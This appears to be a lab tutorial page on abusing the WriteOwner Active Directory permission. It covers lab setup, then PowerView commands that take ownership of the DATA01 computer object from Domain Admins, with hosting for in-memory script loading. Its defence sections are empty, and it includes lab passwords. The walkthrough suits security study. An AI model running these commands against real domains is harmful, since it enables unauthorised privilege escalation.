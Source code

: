 # Write Owner

## Configuring

1. Login to `DC03` with the Administrator user and the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" administration tool.

![](<../../../.gitbook/assets/image (67) (1) (1) (1) (1) (1) (1).png>)

3\. Click on "View" and enable "Advanced Features

![](<../../../.gitbook/assets/image (48) (1) (1) (1).png>)

4\. Click on the "Computers" directory and right click on the "DATA01" computer and select "Properties". Then select "Security" to see the ACL's.

5\. Click on "Add" and type `sa_sql`.

![](<../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png>)

6\. Select the "sa\_sql" user and click "Advanced". Then select the "sa\_sql" once again and click on "Edit". Then select "Modify Owner".

![](<../../../.gitbook/assets/image (15) (1) (1) (1) (1).png>)

7\. We can quickly run BloodHound to check if the correct permissions are applied to the `sa_sql` user:

![](<../../../.gitbook/assets/image (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (61) (1) (1) (1) (1).png>)

It is configured correctly!

## Attacking

### How it works

If a domain object has the WriteOwner ACL, the object can change the owner of the object. In this case the user `SA_SQL` can change the owner of the computerobject `DATA01`. Once you are "Owner" of a object, you can change the DACL of the object.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

1. Download PowerView on the kali machine and host it on a webserver:

```
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
python3 -m http.server 8090
```

2\. Login to `WS01` as Richard with the password `Sample123`.

3\. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../.gitbook/assets/image (70) (1) (1) (1).png>)

4\. In the page DACL-Abuses I showed you how to check for ACL's using BloodHound. We will abuse the "Write Owner" ACL `sa_sql` has on `DATA01`.

![](<../../../.gitbook/assets/image (53) (1).png>)

5\. With PowerView we can query the current owner of the computerobject `DATA01`. Since we are queering data from another domain, we will have to provide a username and password for that domain. Create a credential object using the `get-credential` cmdlet:

```
$creds = Get-Credential
```

Then we can use PowerView to query the domain controller from `secure.local` for the domain-object `DATA01` and retrieve the samaccountname and Owner attribute. We will receive a SID which we need to resolve aswell;

```
Get-DomainObject -Identity data01 -SecurityMasks Owner -Domain secure.local -Credential $creds -Server 10.0.0.100 | select samaccountname, Owner
Get-DomainObject -Identity S-1-5-21-1498997062-1091976085-892328878-512 -Domain secure.local -Credential $creds -Server 10.0.0.100
```

![](<../../../.gitbook/assets/image (32) (1) (1).png>)

The current owner of the computerobject `DATA01` is the group `Domain Admins`.

6\. With PowerView we can change the owner of the object using the `Set-DomainObjectOwner` cmdlet.

```
Set-DomainObjectOwner -Domain secure.local -Credential $creds -Server 10.0.0.100 -Identity DATA01 -OwnerIdentity sa_sql -Verbose
```

![](<../../../.gitbook/assets/image (69) (1) (1) (1) (1) (1).png>)

7\. We didn't receive any errors, to lets use the same queries again to query the owner of the computerobject DATA01;

![](<../../../.gitbook/assets/image (21) (1) (1).png>)

8\. We successfully changed the owner of the computerobject from `Domain Admins` to `sa_ql`.

## Defending

### Recommendations



### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writeowner" %}
